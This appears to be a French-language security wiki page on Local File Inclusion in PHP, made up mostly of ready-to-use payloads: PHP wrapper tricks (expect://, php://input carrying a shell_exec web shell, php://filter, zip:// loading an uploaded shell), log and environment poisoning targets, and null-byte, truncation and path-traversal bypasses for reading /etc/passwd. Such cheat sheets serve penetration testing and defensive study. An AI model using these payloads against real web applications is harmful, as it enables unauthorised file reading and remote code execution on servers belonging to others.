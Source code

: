 ```yaml
---
title: Local File Include
permalink: /Local_File_Include/
---
```


# Local File Include

Une faille de type Local File Include (LFI) consiste à inclure un fichier local à partir d'une entrée utilisateur. Dans certains cas ceci permet d'accéder à des fichiers non situés dans le webroot voire d'executer du code.

PHP
---

### PHP Wrappers

Il y a plusieurs "Wrappers" en PHP qui peuvent être utilisés pour exploiter des LFI.

-   PHP expect wrapper (désactivé par défaut):

``` text
target.php?page=expect://ls
```

-   PHP input wrapper:

``` text
POST /target.php?page=php:/input&cmd=ls
[..]
Content-Length: 44

<?php echo shell_exec($_GET['cmd']);?>
```

-   PHP php://filter (permet d'inclure un fichier et l'encoder en base64. Ceci permet de lire du code PHP:

``` text
vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
```

-   PHP php://filter sans base64:

``` text
vuln.php?page=php://filter/resource=/etc/passwd
```

-   PHP ZIP Wrapper LFI (à condition d'avoir uploadé un zip contenant le payload). Le zip sera décompressé dans shell.php:

``` text
vuln.php?page=zip://path/to/file.zip%23shell.php
```

### Divers

Il est possible d'inclure certains fichiers qui peuvent contenir des entrées utilisateurs si on veut executer du code (ex: User-Agent, etc.):

-   /proc/self/environ
-   Logs Apache
-   Emails (on peut essayer d'énumerer les utilisateurs locaux avec VRFY)

Technique du Null byte (ne fonctionne pas sur les versions récentes de PHP:

``` text
vuln.php?page=/etc/passwd%00
vuln.php?page=/etc/passwd%2500
```

L'injection de loooongues valeurs peut permettre de bypasser certains filtres si on a des truncate:

``` text
vuln.php?page=/etc/passwd.................................................................................
vuln.php?page=../../../../../../../../../../../../../../../../../../../../etc/passwd
vuln.php?page=/etc/passwd/../../../../../../../../../../../../../../../../../../../..
```


